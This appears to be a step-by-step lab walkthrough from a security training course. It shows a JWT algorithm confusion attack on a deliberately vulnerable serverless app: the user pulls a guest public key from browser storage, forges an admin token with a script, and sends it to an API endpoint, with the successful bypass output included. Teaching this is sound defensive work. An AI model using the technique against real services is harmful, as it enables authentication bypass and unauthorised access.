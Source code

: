 ## Algorithm Confusion

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* Open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploder application.

![](img/login-page.png)

##### Step 3:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 4:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `guest_public_key` and `guest_token`
    
    ![](img/click-local-storage.png)

##### Step 5:

* Open Browser

![](img/open-browser.png)


##### Step 6:

* Open `https://www.base64decode.org/` to decode the guest_public_key
   

##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)
    
     
##### Step 8:

* Run `touch public_key.pem`

    ```commandline
    root@we45-VirtualBox:/home/we45# touch public_key.pem
    ```
##### Step 9:


* Run `vim public_key.pem` 

* Run `esc + i` to paste the decoded public key

* Once it is pasted run `esc + wq` to save the file    

##### Step 10:

* Run `node token_gen.js --file public_key.pem --username admin`

   **Note:** Copy the token
        

    ```commandline
    root@we45-VirtualBox:/home/we45# node token_gen.js --file public_key.pem --username admin
        
    This is your token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODk1Mjc0fQ.XFhJRm1W_58ulrgVJ9_vy7LsGy14VICXCLMQsh8g-nE
    
    ```
    
##### Step 11:

* Run `http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<copied token>`

    ```commandline
    root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODgwMjg2fQ.29E-i4QD21pvpA41oEJx60haJoOpgqbpzbvE6OK-Exg
    HTTP/1.1 200 OK
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
    Access-Control-Allow-Methods: GET,OPTIONS
    Access-Control-Allow-Origin: *
    Access-Control-Max-Age: 0
    Connection: keep-alive
    Content-Length: 114
    Content-Type: application/json
    Date: Tue, 25 Sep 2018 17:12:14 GMT
    Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
    X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
    X-Cache: Miss from cloudfront
    X-Success-Request: true
    x-amz-apigw-id: NyXhKFUHoAMFscA=
    x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601
    
    {
        "decoded": {
            "iat": 1537880286, 
            "status": "hacked", 
            "username": "admin"
        }, 
        "success": "You are successfully authenticated"
    }
    
    ```
